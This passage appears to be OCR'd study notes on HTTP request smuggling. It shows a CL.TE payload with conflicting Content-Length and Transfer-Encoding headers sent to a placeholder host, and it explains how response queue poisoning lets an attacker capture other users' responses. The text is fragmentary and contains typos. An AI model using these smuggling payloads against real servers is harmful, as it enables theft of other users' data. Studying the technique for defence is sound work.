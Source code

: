 ```
\\r\\n

```

**Back-end(TE)**

```
`POST / HTTP/1.1\\r\\n
Host: vulnerable-website.com\\r\\n
Content-Type: x-www-form-urlencoded\\r\\n
Content-Length: 61\\r\\n
Transfer-Encoding: chunked\\r\\n
\\r\\n
0\\r\\n
\\r\\n

```

```
GET /anything HTTP/1.1\\r\\n
Host: vulnerable-website.com\\r\\n
\\r\\n

```

```
GET / HTTP/1.1\\r\\n
Host: vulnerable-website.com\\r\\n
\\r\\n

```

it sees 3 difrent/complete request

- note no invlid request hitting back-end

## Desynchronizing Response queue

- Front-end correctly maps the response to the initial `wrapper` rewuest and forward this to client, as there are no further request awaiting a response, the second response is held in queue
- when another request hit the back-end, the response in the queue send to the client and resposne from thet client will be taking in queue
- This lead to staling other user's responses.
